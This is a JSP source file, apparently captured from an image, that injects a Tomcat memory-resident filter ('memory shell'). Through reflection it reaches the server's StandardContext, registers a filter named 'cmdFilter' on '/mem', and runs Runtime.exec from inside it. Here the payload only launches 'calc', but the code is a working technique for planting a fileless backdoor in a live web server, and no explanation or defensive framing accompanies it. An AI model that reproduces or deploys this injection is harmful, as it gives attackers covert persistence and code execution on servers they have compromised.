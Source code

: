 ```jsx
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="javax.security.auth.login.ConfigurationSpi" %>
<%@ page import="java.io.ObjectInputFilter" %>
<html>
<head>
    <title>Title</title>
</head>
<body>
<%
  ServletContext servletContext = request.getSession().getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

  Filter shellFilter = new Filter() {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
      Runtime.getRuntime().exec("calc");
    }

    @Override
    public void destroy() {

    }

  };

  String filterName = "cmdFilter";

  FilterDef def = new FilterDef();
  def.setFilterName(filterName);
  def.setFilter(shellFilter);
  def.setFilterClass(shellFilter.getClass().getName());

  FilterMap map = new FilterMap();
  map.setFilterName(filterName);
  map.addURLPattern("/mem");

  standardContext.addFilterDef(def);
  standardContext.addFilterMapBefore(map);
  standardContext.filterStart();

  out.println("success");

%>

```